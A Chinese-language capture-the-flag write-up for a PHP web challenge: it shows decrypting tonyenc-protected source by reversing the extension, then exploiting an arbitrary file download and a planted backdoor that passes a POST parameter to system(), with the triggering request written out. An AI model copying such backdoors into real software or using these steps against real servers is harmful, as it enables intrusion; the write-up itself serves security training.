



# 热血沸腾的组合技

- 作者：13m0n4de
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Web
- 镜像：[svuctf-winter-2023/tonyenc](ghcr.io/svuctf/svuctf-winter-2023/tonyenc:latest)
- 端口：80

## 题目描述

「Web+Reverse ？真是被看扁了啊...」\
「我们的友谊、我们的羁绊，怎么会...」\
「为了无数个大家，为了充满无限可能的未来...」\
「见识一下吧，这就是我们热血沸腾的组合技！」

## 题目解析

题目给了两个功能，`/?action=phpinfo` 可以显示 PHPINFO 页面，`/?action=download&file=` 可以下载任意文件。

当尝试下载 `index.php` 源码时，会发现全是乱码：



明明是乱码，却能执行？

于是你去搜索 `PHP 源码 加密`，~~或者关闭容器~~。

应该能搜到不少介绍，它们会告诉你 PHP 源码加密/保护 有几种类型：

1. 源代码混淆
2. OPCODE 混淆
3. 修改解释引擎

其中在部署上又分为无扩展和有扩展方案，先别着急看那么多文章，我们的首要任务是判断这题的文件属于哪个方案，高效的捷径。不然大脑占用过高，回到题目的时候宕机了。

其中无拓展方案只有源代码混淆，在用这种方案混淆的源文件中，你应该能看到 `<?php` 标签，许多可见的关键字和函数名，当然也有很多不可见字符，它们就像夹在 PHP 代码中一样。诸如此类特征。

因为无拓展方案必须要求文件内容本身是合规的 PHP 语法，再在此基础上混淆变量函数等名称（使用各种函数进行编码加密）。

这里的情况并不符合，`index.php` 完全是乱糟糟的不可见字符。

所以，它至少是有拓展的。至于那到底是三种方案里的哪种，可以先试着找到它用的拓展找出来。

访问 PHPINFO 页面，翻到 `Configuration` 栏目。

这里通常也包含了各个 PHP 模块的配置信息，可能是 PHP 核心模块，也可能是通过扩展（ extension ）添加的第三方模块。

如果你不熟悉 PHP ，不清楚哪些是核心模块哪些是外部扩展模块，可以用相同版本的 PHP 搭建 PHPINFO 页面，对比一下。再不济，一个个在网上搜索吧.....

最后你会定位到一个模块：tonyenc


然后你就应该能搜到很多指资料了，包括但不限于两个仓库：

- https://github.com/lihancong/tonyenc
- https://gitee.com/lfveeker/tonyenc

后者是前者的修改版，支持了 PHP 8，PHPINFO 中可以得知我们的题目是 PHP 8，所以用的是后面这个仓库。

根据特点描述，可以判断出它不是 *OPCODE混淆* 也不是 *修改解释引擎* 类型的，还原起来会相对简单不少。

文档中说明，它的使用方式是：先编译 .so 扩展文件，将 .so 放入 PHP 扩展文件夹，并在修改配置文件中添加扩展文件名，然后使用自带工具加密 PHP 文件。

那么我们可以先读取配置文件 `php.ini` ，配置文件路径在 PHPINFO 中有，当然试几个默认路径也可以。



读一下 `/usr/local/etc/php/conf.d/php.ini` 的内容：

```ini
memory_limit = 256M
post_max_size = 10M
upload_max_filesize = 10M
extension=tonyenc.so
```

现在我们知道扩展的文件名 `tonyenc.so` 了。

扩展目录可以在 `extension_dir` 里找到：`/usr/local/lib/php/extensions/no-debug-non-zts-20220829`



下载 `/usr/local/lib/php/extensions/no-debug-non-zts-20220829/tonyenc.so`

RE 环节。

看着就不太对劲的函数有这些：

```asm
[0x000011b0]> afl | grep tonyenc
0x000011b0    1    168 dbg.zm_info_tonyenc
0x000013f0    1     23 dbg.zm_shutdown_tonyenc
0x00001820    1      3 sym.zm_activate_tonyenc
0x00001480   10    317 dbg.zif_tonyenc_encode
0x000015d0    1      5 sym.tonyenc_decode
0x00001830    1      3 sym.zm_deactivate_tonyenc
0x000015e0    4    202 sym.tonyenc_ext_fopen
0x000013c0    1     33 dbg.zm_startup_tonyenc
0x00001410    6    107 dbg.tonyenc_encode
0x00001258    2     48 sym.tonyenc_ext_fopen.cold
```

我们先从 `tonyenc_ext_fopen` 开始，从它的名称可以猜测是打开 PHP 文件的函数，跟着它，应该就能找到解密的逻辑。

```c
__int64 __fastcall tonyenc_ext_fopen(FILE *stream, __int64 a2, FILE **a3)
{
  size_t v4; // rbp
  void *v5; // rbx
  FILE *v6; // rax

  v4 = *(_QWORD *)(a2 + 48) - 20LL;
  v5 = (void *)_emalloc(v4);
  fseek(stream, 20LL, 0);
  fread(v5, v4, 1uLL, stream);
  fclose(stream);
  tonyenc_decode((char *)v5, v4);
  v6 = tmpfile();
  *a3 = v6;
  if ( !v6 )
    return tonyenc_ext_fopen_cold();
  if ( fwrite(v5, v4, 1uLL, v6) == 1 )
  {
    rewind(*a3);
    _efree(v5);
    return 0LL;
  }
  else
  {
    php_error_docref(0LL, 16LL, "tonyenc: Failed to write temp file.\n");
    _efree(v5);
    fclose(*a3);
    return 4294967294LL;
  }
}
```

先使用 `fseek` 移动了 `20` 位，跳过了特征头，之后将数据读出调用 `tonyenc_decode` 解密。

跟进 `tonyenc_decode` 会发现它和 `tonyenc_encode` 是一个函数。

```c
void __fastcall tonyenc_encode(char *data, size_t len)
{
  unsigned __int64 v2; // rdx
  __int64 i; // rcx

  if ( len )
  {
    v2 = 0LL;
    for ( i = 0LL; i != len; ++i )
    {
      if ( (i & 1) != 0 )
      {
        v2 = (i + v2 + tonyenc_key[v2]) % 0x1C;
        data[i] = ~(tonyenc_key[v2] ^ data[i]);
      }
    }
  }
}
```

代码逻辑很简单，更简单的是加解密函数共用，照着逻辑写一遍就可以了。

我们还需要查看 `tonyenc_key` 的值，根据 `(i + v2 + tonyenc_key[v2]) % 0x1C` 推断出长度为 0x1C 。

```asm
[0x00001410]> pd 1 @ reloc.tonyenc_key 
            ;-- reloc.tonyenc_key:
            ; DATA XREF from dbg.tonyenc_encode @ 0x142d(r)
            0x00003fd0      .qword 0x0000000000000000                  ; RELOC 64 tonyenc_key @ 0x00002110
[0x00001410]> pcs 0x1C @ 0x00002110
"\xe0\x87\xf9\x93\x12\x97\x16\xda\x0a\x58\xf8\xc8\xfb\x5e\xf1\x41\xd6\x85\x11\x54\x0e\xd7\xec\x14\x74\x62\xb5\x49"
[0x00001410]> 
```

解密脚本（[decode.py](writeup/decode.py)）：

```python
tonyenc_key = bytearray(
    b"\xe0\x87\xf9\x93\x12\x97\x16\xda\x0a\x58\xf8\xc8\xfb\x5e\xf1\x41\xd6\x85\x11\x54\x0e\xd7\xec\x14\x74\x62\xb5\x49"
)

with open("index.php", "rb") as f:
    f.seek(20)
    data = bytearray(f.read())

v2 = 0
for i in range(len(data)):
    if i & 1:
        v2 = (i + v2 + tonyenc_key[v2]) % 0x1C
        data[i] = tonyenc_key[v2] ^ data[i]
        data[i] ^= 0xFF

print(data.decode())
```

这里没用 `~` 取反而是使用了 `^= 0xFF` 异或 0xFF ，是因为在 Python 中，按位取反操作符 `~` 可能会导致 `ValueError: byte must be in range(0, 256)` 错误，因为 Python 的字节类型的取值范围是 0 到 255 。

为了解决这个问题，可以使用 `^ 0xFF` 替代。

得到解密后的 `index.php` 了：

```php
<?php
error_reporting(0);

if (isset($_GET["action"])) {
    if ($_GET["action"] == "phpinfo") {
        phpinfo();
        exit;
    }
    if ($_GET["action"] == "download") {
        $filepath = $_GET["file"];
        if (file_exists($filepath)) {
            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="' . basename($filepath) . '"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));

            readfile($filepath);
            exit;
        } else {
            die('File not found.');
        }
    }
    if ($_GET["action"] == "b4ckd00r") {
        $password = base64_decode($_GET["password"]);
        if ($password == "t0ny3nc") {
            system($_POST["command"]);
        }
    }
} else {
    echo "`/?action=phpinfo` to show phpinfo";
    echo "<br \>";
    echo "`/?action=download&file=` to download any file";
}
```

发现还有一个后门，`action` 可以传入 `b4ckd00r` 来执行 `system` 。

```
POST /?action=b4ckd00r&password=dDBueTNuYw%3d%3d

command=ls /
```

Flag 在根目录 `/flag_随机八位字符`
